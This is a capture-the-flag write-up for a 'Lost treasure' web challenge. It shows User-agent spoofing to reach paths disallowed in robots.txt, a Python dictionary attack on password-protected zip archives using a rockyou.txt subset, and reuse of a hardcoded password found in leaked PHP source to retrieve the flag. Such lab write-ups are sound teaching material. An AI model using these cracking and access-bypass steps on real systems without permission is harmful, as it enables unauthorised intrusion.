 # Lost treasure (50 pts)

>Ahoy! We 'ave lost a booty 'n know that thar be a map available t' find th' booty.
>Can ye help us find th' booty at <51.68.252.196:8081>.

### [~$ cd ..](../)

We are landed on a flat website:

![site](site.png)

As usual, I checked if there was a robots.txt and found:

> ```
>User-agent: BlackPearl
>Allow: /Isla de Muerta
>
>User-agent: Pirate
>Allow: /TreasureMaps
>
>User-agent: *
>Disallow: /Isla de Muerta
>Disallow: /TreasureMaps
> ```

I then sent a request with expected User-agent:

> ```sh
>% curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/"  > TreasureMaps.html
> ```

and got the following file:

> ```html
><html>
><head><title>Index of /TreasureMaps/</title></head>
><body bgcolor="white">
><h1>Index of /TreasureMaps/</h1><hr><pre><a href="../">../</a>
><a href="README.txt">README.txt</a>                                         19-Sep-2018 13:44                  98
><a href="map1.zip">map1.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map10.zip">map10.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map11.zip">map11.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map12.zip">map12.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map13.zip">map13.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map14.zip">map14.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map15.zip">map15.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map16.zip">map16.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map2.zip">map2.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map3.zip">map3.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map4.zip">map4.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map5.zip">map5.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map6.zip">map6.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map7.zip">map7.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map8.zip">map8.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map9.zip">map9.zip</a>                                           19-Sep-2018 13:44                1521
></pre><hr></body>
></html>
> ```

Let's begin with the README:


> ```sh
>% curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/README.txt"             
>All our zip files are secured with passwords. Only someone called "RockYou" knows the passwords!
> ```

and the archives:

> ```sh
>for i in {1..16}; do curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/map$i.zip" -o "map$i.zip" ;done
> ```

I then naively started with a dictionnary attack with rockyou.txt using a for loop on each archive, but realized that it could no work:

> ```
>% for i in {1..16}; do fcrackzip -v -u -D -p /home/enzo/Documents/hacking/rockyou.txt map$i.zip; done
> ```

because `fcrakzip` couldn't handle properly the kind of file:

> ```sh
>% file map1.zip
> map12.zip: Zip archive data, at least v5.1 to extract
>% unzip map1.zip 
>Archive:  map1.zip
>   skipping: f864ae468a              need PK compat. v5.1 (can do v4.6)
> ```

I looked for a tool is order to crack password quickly, but didn't found. I then realized that I didn't have to crack them all:

> ```sh
>% md5sum *                    
>b32697dc1e9e8da35b9732a8e2859657  map10.zip
>b32697dc1e9e8da35b9732a8e2859657  map11.zip
>b32697dc1e9e8da35b9732a8e2859657  map12.zip
>fe2f3b7c371400f331aa9e975bfc825a  map13.zip
>b32697dc1e9e8da35b9732a8e2859657  map14.zip
>b32697dc1e9e8da35b9732a8e2859657  map15.zip
>b32697dc1e9e8da35b9732a8e2859657  map16.zip
>b32697dc1e9e8da35b9732a8e2859657  map1.zip
>b32697dc1e9e8da35b9732a8e2859657  map2.zip
>b32697dc1e9e8da35b9732a8e2859657  map3.zip
>b32697dc1e9e8da35b9732a8e2859657  map4.zip
>b32697dc1e9e8da35b9732a8e2859657  map5.zip
>b32697dc1e9e8da35b9732a8e2859657  map6.zip
>b32697dc1e9e8da35b9732a8e2859657  map7.zip
>b32697dc1e9e8da35b9732a8e2859657  map8.zip
>b32697dc1e9e8da35b9732a8e2859657  map9.zip
>b828b8825c21ac97afce52afbaac5ca6  README.txt
>432e5e794481c58c572905d67c27d189  TreasureMaps.html
> ```

I then kept only [map12.zip](map12.zip) and [map13.zip](map13.zip) and wrote a (non-optimized) Python script to break the passwords:

> ```python
>import subprocess
>f = open('pirate.txt', 'r')
>passwords = f.read().splitlines()
>f.close()
>for word in passwords:
>	cmd = '7z e -y map12.zip -p%s' % word
>	process = subprocess.Popen(cmd.split(), stdout=subprocess.PIPE,stderr=subprocess.PIPE)
>	output, error = process.communicate()
>	if "ERROR" not in error:
>		print word
>		process = subprocess.Popen('wc f864ae468a'.split(), stdout=subprocess.PIPE,stderr=subprocess.PIPE)
>		output, error = process.communicate()
>		print output
>		print '-------------'
> ```

I made the assumption that they were related to the theme of the piracy.
I then gpep'd rockyou in this way and run the script:

> ```sh
>% grep ~/Documents/hacking/rockyou.txt -ie pirate > pirate.txt
>% run brute.py
> ohs pirate
> 0 0 0 f864ae468a
>
> -------------
> pirates arr cool
> 0 0 0 f864ae468a
>
> -------------
> pirate girl
> 0 0 0 f864ae468a
>
> -------------
> my pirate
> 0 0 0 f864ae468a
>
> -------------
> iwannabeapirate
> 90  209 3677 f864ae468a
>
> -------------
> i luv pirate forever
> 0 0 0 f864ae468a
>% 7z e -y map13.zip -piwannabeapirate 
>
> 7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
> p7zip Version 16.02 (locale=fr_FR.utf8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i5-4200U CPU @ 1.60GHz (40651),ASM,AES-NI)
>
> Scanning the drive for archives:
> 1 file, 1521 bytes (2 KiB)
>
> Extracting archive: map13.zip
> --
> Path = map13.zip
> Type = zip
> Physical Size = 1521
>
> Everything is Ok
>
> Size:       3677
>Compressed: 1521
> ```

Password found! I then used "iwannabeapirate" and extract the file [f864ae468a](f864ae468a):

> ```php
><?php
>if (isset($_POST['submit'])){
>	if($_POST["password"] == "todayisagoodday") {
>		header("Location: "); //TODO: add treasure location
>		die();
>	}
>	else {
>		header("Location: brrrt.html");
>		die();
>	}
>}
>?>
>...
> ```

I then sent the following request to get the location of the treasure:

> ```sh
> % curl -d "submit=&password=todayisagoodday" -H "User-agent: BlackPearl" "http://51.68.252.196:8081/Isla de Muerta/index.php"  -v
> *   Trying 51.68.252.196...
> * TCP_NODELAY set
> * Connected to 51.68.252.196 (51.68.252.196) port 8081 (#0)
> > POST /Isla de Muerta/index.php HTTP/1.1
> > Host: 51.68.252.196:8081
> > Accept: */*
> > User-agent: BlackPearl
> > Content-Length: 32
> > Content-Type: application/x-www-form-urlencoded
> > 
> * upload completely sent off: 32 out of 32 bytes
> < HTTP/1.1 302 Moved Temporarily
> < Server: nginx/1.12.2
> < Date: Thu, 04 Oct 2018 16:32:14 GMT
> < Content-Type: text/html
> < Transfer-Encoding: chunked
> < Connection: keep-alive
> < X-Powered-By: PHP/5.4.16
> < Location: Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html
> < 
> * Curl_http_done: called premature == 0
> * Connection #0 to host 51.68.252.196 left intact
> ```

And capture the flag

> ```sh
> % curl -H "User-agent: BlackPearl" "http://51.68.252.196:8081/Isla de Muerta/Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html"  -v 
> *   Trying 51.68.252.196...
> * TCP_NODELAY set
> * Connected to 51.68.252.196 (51.68.252.196) port 8081 (#0)
> > GET /Isla de Muerta/Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html HTTP/1.1
> > Host: 51.68.252.196:8081
> > Accept: */*
> > User-agent: BlackPearl
> > 
> < HTTP/1.1 200 OK
> < Server: nginx/1.12.2
> < Date: Thu, 04 Oct 2018 16:33:14 GMT
> < Content-Type: text/html
> < Content-Length: 317
> < Last-Modified: Wed, 19 Sep 2018 13:44:20 GMT
> < Connection: keep-alive
> < ETag: "5ba252b4-13d"
> < Accept-Ranges: bytes
> < 
> <head>
>  <title>Treasure</title>
>  <style>
>    html, body, .container {
>        height: 100%;
>    }
>    .container {
>        color: white;
>        display: none;
>    }
>  </style>
></head>
><body>
>  <h1>Treasure</h1>
>  <div class="container">
>    <p>AllTreasuremapsLeadToATreasure</p>
>  </div>
></body>
>* Curl_http_done: called premature == 0
>* Connection #0 to host 51.68.252.196 left intact
> ```

FLAG: **AllTreasuremapsLeadToATreasure**
